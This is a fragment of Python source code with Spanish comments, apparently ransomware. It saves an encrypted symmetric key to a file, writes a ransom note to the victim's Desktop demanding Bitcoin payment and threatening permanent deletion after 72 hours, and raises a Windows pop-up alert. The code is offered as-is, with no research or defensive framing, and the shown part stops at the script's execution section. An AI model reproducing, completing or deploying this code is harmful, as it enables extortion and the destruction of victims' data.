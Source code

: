 ```python
    # Guardar la clave cifrada en un archivo binario
    with open(ruta_clave, "wb") as archivo:
        archivo.write(clave_simetrica_cifrada)

    print(f"Clave cifrada guardada en: {ruta_clave}")

    return clave_simetrica_cifrada  # Devolver la clave cifrada para la nota

def mostrar_nota_rescate(clave_cifrada):
    """Crea una nota de rescate en el escritorio y muestra un pop-up de advertencia."""
    
    escritorio = os.path.join(os.path.expanduser("~"), "Desktop")
    ruta_nota = os.path.join(escritorio, "README_IMPORTANTE.txt")

    nota = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con un algoritmo seguro.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en Bitcoin (BTC) a la siguiente dirección:
   [DIRECCIÓN BITCOIN]

2. Envía un correo a [EMAIL] con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: [ID_UNICO]

3. Una vez confirmado el pago, recibirás la clave de descifrado.

----------------------------
 🔐 INFORMACIÓN SOBRE TU CLAVE 🔐
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

  {clave_cifrada.decode()}  

- También la encontrarás en el archivo: 'clave_cifrada.bin'.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

Atentamente, 
[Nombre del grupo de hackers]
"""

    # Guardar la nota en un archivo de texto
    with open(ruta_nota, "w") as archivo:
        archivo.write(nota)

    # Mostrar mensaje emergente con Windows MessageBox
    ctypes.windll.user32.MessageBoxW(
        0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
        "ALERTA DE SEGURIDAD", 0x10 | 0x1
    )

    print(f"Nota de rescate creada en: {ruta_nota}")

# =======================
# 🔥 EJECUCIÓN DEL SCRIPT
```